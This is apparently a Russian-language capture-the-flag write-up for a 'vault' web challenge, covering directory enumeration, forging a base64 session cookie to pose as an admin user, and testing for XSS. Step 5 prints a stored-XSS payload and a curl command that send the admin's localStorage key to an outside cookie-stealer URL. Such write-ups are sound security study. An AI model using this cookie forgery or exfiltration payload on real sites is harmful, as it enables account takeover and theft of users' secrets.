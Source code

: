 1. Находим дополнительные флаги с помощь dirsearch  в   http://vault.ctf2019.rocks/manage и 2-й в initialVector в notes.js

2. Переводим куку юзера из base64.  Видим, что одинаковые буквы в имени пользователя соответствуют одинаковым цифрам.

3. Создаем пользователя admina. Убираем последнюю цифру имени пользователя из куки. Переводим куку обратно в base64 и передаем ее
в http://vault.ctf2019.rocks/ . Видим запись flag, но она зашифрована.

4. Тестируем на xss. Находим, что  выполняется скприпт, если передать незашифрованный text <script>alert("TEST");</script> в addnote.

5. Делаем запрос к кукой админа что бы забрать его localStorage->key:
```
src="<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(window.localStorage.getItem('key'));</script>"
curl "http://vault.ctf2019.rocks/addnote.php?title=aaax&text=$src"  -H 'Cookie: session=MTYsMjEsMjgsMjQsMzE6OjoxMTM3'  -v
```
получаем ключ админа

6. добавляем ключ в localStorage->key. Получаем расшифрованный флаг в записи flag admin-a.


